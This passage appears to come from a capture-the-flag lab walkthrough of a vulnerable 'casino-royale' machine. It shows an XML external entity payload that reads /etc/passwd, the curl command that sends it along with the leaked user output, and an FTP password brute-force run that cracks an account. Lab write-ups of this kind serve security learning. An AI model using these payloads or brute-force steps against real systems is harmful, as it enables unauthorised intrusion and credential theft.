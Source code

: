 Seems it receives POST request using an xml DTD format.

Let's try XEE

```xml

<?xml version="1.0" encoding="ISO-8859-1"?>

  <!DOCTYPE foo [  

  <!ELEMENT foo ANY >

  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<creds>

    <customer>&xxe;</customer>

    <password>password</password>

</creds>

\
```
Further doc 
https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
 
```bash

┌──(kali㉿kali)-[~]
└─$ curl -d "@xxe.txt" -X POST http://casino-royale.local/ultra-access-view/main.php | grep ftp

ftp:x:115:124:ftp daemon,,,:/srv/ftp:/bin/false
ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash
<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->

```
Found the ftpUserULTRA

Based on previous hint:


Seems it can be bruteforced, 

Lets try an ftp bruteforced to do so, or hydra,

I like this one because is more verbose,

Found the pass **bankbank**

```bash
┌──(root㉿kali)-[~kali/FTP-Bruteforcer]
└─# python3 multithread-ssh-and-Ftp-Bruteforcer.py 192.168.0.107 -p 21 -u ftpUserULTRA -w /usr/share/wordlists/fasttrack.txt -ftp

---------------------------------------------------------
---------------------------------------------------------
[*] Target      : 192.168.0.107
[*] Port        : 21
[*] Threads     : 4
[*] Wordlist    : /usr/share/wordlists/fasttrack.txt
[*] Protocol    : ftp
---------------------------------------------------------
---------------------------------------------------------
Ftp Bruteforce starting at 15/01/2024 05:42:13
---------------------------------------------------------
---------------------------------------------------------
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:Spring2015
```
